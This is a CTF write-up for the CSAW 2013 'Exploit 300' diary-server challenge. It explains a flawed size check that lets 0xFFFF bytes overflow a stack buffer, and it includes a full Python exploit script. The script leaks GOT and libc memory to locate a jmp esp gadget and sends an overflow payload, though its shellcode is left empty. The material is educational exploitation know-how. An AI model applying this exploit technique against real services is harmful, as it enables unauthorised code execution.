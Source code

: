 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 300"
---
```


This challenge is a diary server listening on port 34266. When we first connect it prompt us to enter a password and an username. Both value are hardcoded in the application and can be retrieved through reverse engineering. Username is `csaw2013` and password is `S1mplePWD`.

Once we are logged we are prompt to enter a new entry into the diary. We first enter the size of the entry text message and then we enter the entry content.

The exploit is that the size we send first is then used by `recv` to read our entry into a fixed sized buffer of `0x400` bytes. Note that there is a check to see if the size we provided is below `0x400`, but giving a 2 bytes negative number such a `0xFFFF` would pass the test, but still read `0xFFFF` bytes of data, allowing us to smash the stack and overwrite the return adresse.

Since there were no `jmp esp` instruction in the program, I scanned the libc to find an adresse we could return to that would then jump on the shellcode in the buffer. The exploit script used is:

```python

#!/usr/bin/env python

import socket
import sys
import struct
from struct import pack

host = '128.238.66.217'
port = 34266

shellcode = ''

user = 'csaw2013'
pwd = 'S1mplePWD'

def read_until(s, a):
  data = ''
  while data.find(a) == -1:
    data = s.recv(4096)

def connect_to_host():

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))

  read_until(s,'UserName')
  s.send(user)
  read_until(s,'Password')
  s.send(pwd)
  read_until(s,'Entry')
  s.send(str(0xFFFF))

  return s

ret_off = 0x420
def exploit(offset):

  s = connect_to_host()
  print 'connected'
  payload = ('\x55' * ret_off) + pack("I", offset) + '\x90'*32 + shellcode
  s.send(payload)
  print 'payload sent'
  s.close()

def leak(offset, size):

  s = connect_to_host()
  off_send = pack("I", 0x080488B0)

  payload = ('\x55' * ret_off) + off_send

  payload += pack('<I', 0x080487a0) # exit
  payload += pack('<I', 0x4) # fd
  payload += pack('<I', offset)
  payload += pack('<I', size) # len
  payload += pack('<I', 0x40) # flags

  payload += '\x90'*32 + shellcode

  s.send(payload)

  result = ''
  data = True

  while data:
    data = s.recv(1024)
    result += data
  s.close()

  return result

def find_jmp_esp():
  gots = leak(0x0804af80, 4)  # The offset of the got entries.
  print 'gots: %s' % repr(gots)

  libc_guess = struct.unpack('I', gots[:4])[0]
  print 'libc_guess: %s' % hex(libc_guess)

  buf_base = libc_guess - (libc_guess % 0x1000)

  buf = leak(buf_base, 4096)
  while buf:
    print hex(buf_base)
    jmp_esp = buf.find("\xff\xe4")  # jmp esp
    if jmp_esp != -1:
      return buf_base + jmp_esp
    else:
      buf_base += len(buf)
      buf = leak(buf_base, 4096)

  return 0

jmpesp_addr = find_jmp_esp()
print 'jmpesp_addr: ', hex(jmpesp_addr)
exploit(jmpesp_addr)

```
